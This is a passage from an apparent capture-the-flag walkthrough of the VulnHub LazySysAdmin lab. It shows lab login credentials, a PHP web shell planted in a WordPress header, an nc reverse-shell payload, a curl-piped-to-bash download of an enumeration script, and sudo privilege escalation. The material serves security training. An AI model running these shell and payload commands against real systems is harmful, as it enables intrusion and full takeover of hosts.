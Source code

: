 __username: admin__

__password: TogieMYSQL12345^^__

Login and start editing php. Adding `echo system($_REQUEST ['cmd']);` to header.php:

![5-1.png](/assets/images/posts/lazysysadmin-vulnhub-walkthrough/screenshot 9.png)

Using burp we can then make and intercept requests. We used the following payload:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

![5-1.png](/assets/images/posts/lazysysadmin-vulnhub-walkthrough/screenshot 7.png)

Start a nc listener.
![5-1.png](/assets/images/posts/lazysysadmin-vulnhub-walkthrough/screenshot 10.png)

We get our reverse shell.
## Low privilege shell
Download the `LinEnum.sh` script from github and run it. Start a server on the host to serve the script. Get it using curl.
```
www-data@LazySysAdmin:/var/www/html/wordpress$ curl 192.168.175.132/LinEnum.sh | bash
```

![5-1.png](/assets/images/posts/lazysysadmin-vulnhub-walkthrough/screenshot 11.png)

Then check out the user groups:
```
www-data@LazySysAdmin:/var/www/html/wordpress$ id
uid=1000(togie) gid=1000(togie) groups=1000(togie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)

```
![5-1.png](/assets/images/posts/lazysysadmin-vulnhub-walkthrough/screenshot 12.png)

togie belongs to sudo group.

Earlier we got `deets.txt` file with the password `12345`. We use this to log in as togie:
```
www-data@LazySysAdmin:/var/www/html/wordpress$ su - togie
Password:
togie@LazySysAdmin:~$ ls
togie@LazySysAdmin:~$ sudo -su
togie@LazySysAdmin:~$ sudo -l
[sudo] password for togie:
Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL

```


[1]: https://www.vulnhub.com/entry/lazysysadmin-1,205/
[2]: https://twitter.com/@TogieMcdogie
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator